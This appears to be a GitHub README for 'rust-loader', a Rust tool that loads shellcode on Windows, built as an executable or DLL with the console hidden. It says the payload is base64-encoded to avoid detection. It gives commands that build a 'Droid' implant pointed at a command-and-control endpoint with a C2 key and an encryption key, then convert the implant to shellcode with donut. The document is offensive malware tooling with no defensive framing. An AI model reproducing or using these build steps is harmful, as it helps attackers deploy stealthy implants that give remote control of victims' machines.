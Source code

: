 # rust-loader
A simple windows binary loader, written in rust

The shellcode has to be put in the src/payload.b64 file.

shell is base64 encoded to prevent donut detection

## To build : 

### Executable
Win x86
```shell
cargo build --target i686-pc-windows-gnu --release --features no_console
```
Win x64
```shell
cargo build --target x86_64-pc-windows-gnu --release --features no_console
```

### Dll
Win x86
```shell
cargo build --target i686-pc-windows-gnu --release --lib
```
Win x64
```shell
cargo build --target x86_64-pc-windows-gnu --release --lib
```

## Generate payload : 
```shell
cross build --target x86_64-pc-windows-gnu --release --features no_console --config "env.ENDPOINT.value='https://192.168.48.128'" --config "env.C2_SERVER_KEY.value='MXlPZEVWWGVmN2xqbnpyUg=='" --config "env.LITCRYPT_ENCRYPT_KEY.value='thisisadeploymentkey'"
```
```shell
/opt/donut/donut -i /mnt/Share/Projects/Rust/Droid/target/x86_64-pc-windows-gnu/release/droid.exe -f 2 -a 2 -o /mnt/Share/Projects/Rust/rust-loader/src/payload.b64
```